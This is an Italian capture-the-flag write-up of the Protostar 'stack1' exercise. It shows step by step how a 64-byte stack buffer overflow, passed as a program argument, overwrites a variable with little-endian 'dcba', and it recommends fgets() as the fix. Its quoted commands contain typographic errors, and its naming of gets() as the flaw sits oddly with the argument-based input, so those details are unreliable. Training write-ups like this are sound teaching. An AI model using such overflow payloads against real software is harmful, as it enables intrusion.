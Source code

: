 # Protostar_stack 1 - Tipo di attacco

## Obiettivo della sfida
Impostare la variabile _modified_ al valore **0x61626364** a tempo di esecuzione

## Strategia di attacco
Mandiamo in escuzione il **stack1**
```bash
> cd /opt/protostar/bin
> ./stack1 abc
# stampa errore
Try again, you got 0x00000000
```
### Cosa fare
Riempire _buffer_ con 64 caratteri e alla fine appendere i 4 corrispondenti a 0x61626364 essi sono la **"abcd"**

## Come sfruttare le vulnerabilità
Proviamo ad eseguire
```bash
> /opt/protostar/bin/stack1 'python –c 'print "a" * 64 + "abcd"'' 
# stampa errore
Try again, you got 0x64636261
```
Anche se l'input è stato inserito correttamente appare a rovesci, questo avviene perchè l'architettura Intel è **little endian**!
### Istruzioni da eseguire
```bash
> /opt/protostar/bin/stack1 'python –c 'print "a" * 64 + "dcba"'' 
# sfida vinta
```
## Debolezze
1. `gets()` non effettua controlli sul buffer overflow

## Mitigazione
1. sostituire la funzione`gets()` con `fgets()`